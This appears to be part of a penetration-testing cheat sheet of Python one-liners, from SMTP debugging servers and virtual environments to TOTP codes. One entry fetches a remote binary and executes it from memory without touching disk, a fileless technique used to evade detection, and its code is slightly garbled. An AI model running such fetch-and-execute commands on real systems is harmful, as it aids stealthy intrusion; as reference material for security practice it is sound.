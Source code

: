 ```console
$ python3 -m smtpd -c DebuggingServer -n <LHOST>:25
```

### Virtual Environments

```console
$ python3 -m venv venv
$ source venv/bin/activate
$ deactivate
```

### Unzip .zip File

```console
$ import zipfile;zipfile.ZipFile('<FILE>.zip','r').extractall('.');
```

### SyntaxError: invalid non-printable character U+200B

```console
$ sed -i 's/\xe2\x80\x8b//g'
$ sed 's/\xe2\x80\x8b//g' <FILE> > <FILE>
```

### Shell Code Conversion

```console
$ python -c 'print "\x41"'
```

### Testing Web Sockets

```console
$ python3 -m websockets ws://<DOMAIN>
```

### Fixing Crypto Error

```console
$ pip install pycryptodome
```

### Running Binaries without touching Disk

```console
$ python3 -c 'import os; import urllib.request; d = urllib.request.urlopen("https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap?raw=true"); fd = os.memfd_create("<TEXT>"); os.write(fd, http://d.read()); p = f"/proc/self/fd/{fd}"; os.execve(p, [p, "-h"],{})'
```

## Python TOTP

```console
$ sudo pip install pyotp
$ python3 -c 'import pyotp; totp = pyotp.TOTP("orxxi4c7orxwwzlo"); print(totp.now())'
```


[localhost]: PS C:\Users\<USERNAME>\Documents> whoami